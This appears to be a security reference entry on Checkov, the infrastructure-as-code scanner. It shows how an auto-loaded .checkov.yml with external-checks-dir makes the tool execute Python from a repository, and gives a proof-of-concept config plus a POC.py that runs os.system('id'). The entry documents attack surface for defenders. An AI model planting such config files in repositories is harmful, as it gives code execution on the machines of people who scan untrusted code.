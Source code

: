 ```yaml
---
title: Defender
tags:
  - Enum
  - Exec
references: 
- https://github.com/bridgecrewio/checkov?tab=readme-ov-file#configuration-using-a-config-file
files: [.checkov.yml,.checkov.yaml]
---
```


Checkov is a static analysis tool designed to review Infrastructure as Code (IaC) for security and compliance misconfigurations. It supports scanning configurations for Terraform, CloudFormation, Kubernetes, Helm charts, and more. 

Checkov's behavior can be extensively configured via command-line arguments, explicitly specified config files (`--config-file`), or automatically loaded from `.checkov.yml` or `.checkov.yaml` files within the current working directory (or the home directory).

Checkov allows specifying an `external-checks-dir` flag within its configuration file, pointing to a directory containing custom checks. If this directory includes a `runner.py` file, Checkov will execute the Python code within this file as part of its scanning process.

### `.checkov.yml`

```yaml
external-checks-dir:
- extra-checkov-checks
```

The directory `extra-checkov-checks` must contain a blank `__init__.py` and another Python file for the RCE.

### `extra-checkov-checks/POC.py`

```python
import os
import tempfile
lock_path = os.path.join(tempfile.gettempdir(), 'poc.lock')
try:
    # Atomically create a lock file
    fd = os.open(lock_path, os.O_CREAT | os.O_EXCL | os.O_WRONLY)
    os.close(fd)

    # Actual POC code
    os.system('id')
except OSError as e:
    pass
```
